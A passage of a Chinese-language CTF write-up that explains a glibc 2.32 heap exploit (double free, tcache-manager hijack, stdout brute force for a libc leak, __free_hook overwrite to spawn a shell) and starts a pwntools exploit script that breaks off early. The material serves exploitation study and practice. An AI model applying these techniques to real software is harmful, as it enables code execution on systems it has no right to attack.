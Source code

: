 但是libc 的版本为 `2.32` ，那么我们需要用掉唯一的一次打印的机会泄露堆基址才能通过 double free 进行任意地址写

而我们还需要想办法泄露 libc 基址，但是我们只能分配 `0x80` 的堆块，即使劫持了 tcache管理器 后所释放的堆块也只能够进入fastbin中（而且我们一次只能操作一个堆块

![](img/be720ee084ac0b9bb1c52c4f651dfac6.png)

考虑到 tcache管理器 本身便是一个 `0x291`的堆块，我们可以劫持之后改对应计数为7后free掉，送入 unsorted bin 中，之后切割这个大chunk，利用残留指针 大概1/16 的几率可以爆破到 stdout 附近，劫持 stdout 以泄露 libc 基址，最后改 `__free_hook` 为 system 函数后释放一个内容为 `/bin/sh`的 chunk 即可 get shell

> 非酋的话可能要爆破很久…

故构造exp如下：

```
from pwn import*

global p
libc = ELF('./libc.so.6')

def cmd(command:int):
    p.recvuntil(b">>")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Size:")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content:")
    p.send(content)

def free():
    cmd(2)

def show():
    cmd(3)

def edit(content):
    cmd(5)
    p.recvuntil(b"Content:")
    p.send(content)

def exp(hit_byte):
    new(0x80, b'arttnba3')
    free()
    show()

    heap_leak = u64(p.recv(6).ljust(8, b'\x00'))
```